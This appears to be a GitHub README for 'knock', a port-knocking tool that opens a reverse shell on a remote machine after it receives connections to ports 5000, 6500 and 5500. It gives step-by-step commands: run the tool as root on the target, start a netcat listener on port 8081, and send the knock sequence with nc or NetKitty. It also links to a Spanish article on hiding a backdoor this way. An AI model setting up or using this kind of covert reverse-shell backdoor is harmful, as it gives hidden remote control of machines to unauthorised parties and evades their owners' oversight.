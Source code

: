 Port Knocking Activated Reverse Shell
---------------------------------
Simple Port Knocking implementation to activate a reverse shell on a remote machine

Usage
---------------
In the remote machine launch the application knock as root:

$ sudo ./knock eth0

It requires the interface to listen to packages

Then in the remote machine. 

1. Launch a server to receive the reverse shell connection. Default port is 8081

$ nc -l 8081

2. From another terminal/session send the connection packets to ports: 5000, 6500 and 5500

nc targetIP 5000; nc targetIP 6500 nc targetIP 5500

Or using NetKitty in one shot

$ nk -s T,8081 -c T,targetIP,5000 targetIP,6500 targetIP,5500


More Information
---------------------------
A detailed explanation can be found here:

SPANISH: http://www.papermint-designs.com/roor/2016-01-knock--knock--knocking-en-tu-backdoor
ENGLISH: _Comming Soon_


